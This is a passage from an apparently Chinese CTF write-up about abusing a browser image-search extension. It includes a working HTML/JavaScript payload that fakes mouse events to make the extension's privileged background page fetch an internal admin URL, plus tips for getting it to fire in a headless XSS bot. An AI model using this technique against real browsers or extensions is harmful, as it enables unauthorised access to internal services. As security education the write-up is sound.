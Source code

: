 点击查找同款之后对图片的请求是扩展程序（在后台页面 `background.bundle.js`）发起的**牛逼的**请求，不受正常网站的跨域限制。不明白也没关系，只要知道这个现象就行，总之我们需要借助扩展程序的力量来发起**牛逼的** HTTP 请求。

既然这个扩展程序会在鼠标点击搜图按钮的时候发起**牛逼的** HTTP 请求，我们自然可以对着它的业务逻辑照猫画虎，在页面上模拟鼠标事件：

```html
<img id="victim" style="width: 150px; height: 150px" src="http://127.0.1.14:1919/admin">
<script>
function sleep(x) {
    return new Promise(resolve=>setTimeout(resolve, x));
}
async function pwn() {
    await sleep(800); // wait for content script to init
    let img = document.querySelector('#victim');
    img.dispatchEvent(new MouseEvent('mousemove', {clientX: 100, clientY: 100, bubbles: true}));
    await sleep(800);
    let btn = document.querySelector('#chrome_pc_imgSearch_hoverWrapper>div');
    btn.click();
}
pwn();
</script>
```

我们首先在页面上放一个图片，然后模拟发送 `mousemove` 事件骗扩展程序以为有人移动了鼠标，再去点搜图按钮即可让扩展程序以为真有人要搜图，从而发起**牛逼的** HTTP 请求。

这里需要注意扩展程序对图片的大小、位置、样式等等都有要求，如果图片太小或者存在一部分在屏幕外等情况，则不会显示搜图按钮。如果你在 XSS Bot 上打不通，建议结合源码重点检查这块的逻辑。一个常见的坑是 Headless Chrome 的默认窗口大小是 800*600，所以如果你在 CSS 里给图片设置的尺寸太大了就会一部分跑到屏幕外，从而不显示搜图按钮。

### Flag 2

这个 Flag 更进一步，要求我们获取**牛逼的** HTTP 请求对应的响应。我们需要深入扩展程序的源码才能解出此 Flag。

当然，分析这个扩展程序的源码绝非易事，巨大的 webpack 产物给调试带来了很大困难，我们能做的事情基本只有在关键 API 和字符串所在的位置下断点，然后结合调用栈来分析程序的逻辑。同时注意千万别乱拖滚动条，拖完之后保证拖不回来。尽管困难，分析源码依然是可以做到的。为了向大伙证明这一点，我在第二阶段放出了仅含业务逻辑的精简版扩展，甚至把里面的 React 和 Regenerator 都给大力抠掉了。突然感觉能做到这件事的我也挺**牛逼**的。

说回题目。首先，`contentScript.bundle.js` 被注入到所有页面上，来在恰当时机显示搜图按钮。点击按钮后，经过一系列判断，最终它会向后台页面 `background.bundle.js` 发送消息来调用**牛逼**力量：

```javascript
chrome.runtime.sendMessage({
    action: "imgUrl2Base64_send",
    message: e // 图片URL
})
```

然后在后台页面，它会接收这个消息：

```javascript
chrome.runtime.onMessage.addListener(async (e, o, i) => {
    if("imgUrl2Base64_send" === e.action) {
        var a = e.message;
        ... // to be continued
    }
}
```
